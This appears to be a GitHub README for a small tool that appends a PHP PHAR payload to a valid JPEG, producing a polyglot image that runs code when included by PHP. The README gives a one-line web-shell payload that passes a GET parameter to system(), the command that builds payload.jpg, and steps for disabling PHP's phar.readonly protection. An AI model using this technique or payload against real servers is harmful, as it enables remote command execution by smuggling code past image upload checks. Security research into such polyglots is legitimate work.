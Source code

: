 # JPEG PHAR Fusion

![Very cool picture](https://github.com/Sarapuce/jpeg-phar-fusion/blob/main/fusion.jpeg)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Run "php include.php" to see the code executed!!



## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`
